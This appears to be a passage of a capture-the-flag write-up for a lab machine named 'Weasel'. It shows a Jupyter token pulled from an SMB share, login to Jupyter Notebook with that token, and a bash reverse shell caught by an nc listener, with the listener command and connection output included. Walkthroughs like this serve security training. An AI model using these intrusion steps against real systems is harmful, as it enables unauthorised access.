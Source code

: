 ```
getting file \papers\BI002_2613_Cz-40-2_Acta-T34-nr25-347-359_o.pdf of size 3491735 as papers/BI002_2613_Cz-40-2_Acta-T34-nr25-347-359_o.pdf (177.8 KiloBytes/sec) (average 124.9 KiloBytes/sec)
getting file \papers\Dillard_Living_Like_Weasels.pdf of size 45473 as papers/Dillard_Living_Like_Weasels.pdf (34.7 KiloBytes/sec) (average 121.3 KiloBytes/sec)
getting file \pics\57475-weasel-facts.html of size 301025 as pics/57475-weasel-facts.html (110.1 KiloBytes/sec) (average 120.4 KiloBytes/sec)
getting file \pics\long-tailed-weasel of size 250269 as pics/long-tailed-weasel (72.2 KiloBytes/sec) (average 116.1 KiloBytes/sec)
getting file \pics\Weasel of size 229746 as pics/Weasel (81.6 KiloBytes/sec) (average 113.8 KiloBytes/sec)
```

A lot of stuff about weasels, but also the file ```jupyter-token.txt``` in ```misc```.

```
┌──(kali㉿kali)-[/tmp/smb]
└─$ ls -al misc 
total 4
drwxrwxr-x 2 kali kali  60 Dec 22 21:15 .
drwxrwxr-x 6 kali kali 220 Dec 22 21:15 ..
-rw-r--r-- 1 kali kali  52 Dec 22 21:15 jupyter-token.txt
                                                                                                                                            
┌──(kali㉿kali)-[/tmp/smb]
└─$ cat misc/jupyter-token.txt
067470c5ddsadc54153ghfjd817d15b5d5f5341e56b0dsad78a
```

### Foothold
We are able to use this token to login to Jupyter Notebook on port 8888, where we can edit ```weasel.ipynb``` or create a new Jupyter notebook file to get a shell.

![Jupyter authenticated](/img/weasel/logon.png)

I tried to use Python to execute PowerShell and get a reverse shell that way. I wasn't able to get a connection, and after some testing realized that Windows-specific features like PowerShell simply weren't being executed correctly. On the other hand, Linux commands were working perfectly fine. Given that our nmap scan revealed many details that our target is a Windows machine (e.g. RDP and Microsoft RPC). It's fairly safe to say that we are up against WSL.

![PowerShell vs Bash](/img/weasel/compare.png)

So I got a shell using bash.

![Python os shell](/img/weasel/ipy_shell.png)

```
┌──(kali㉿kali)-[/tmp/smb]
└─$ nc -nvlp 21
listening on [any] 21 ...
connect to [10.13.48.55] from (UNKNOWN) [10.10.34.193] 50376
bash: cannot set terminal process group (10): Invalid argument
bash: no job control in this shell
(base) dev-datasci@DEV-DATASCI-JUP:~/datasci-team$ 
```


[^1]: You can read still the flags here, but AFAIK getting command execution on Windows isn't possible from the mounted filesystem.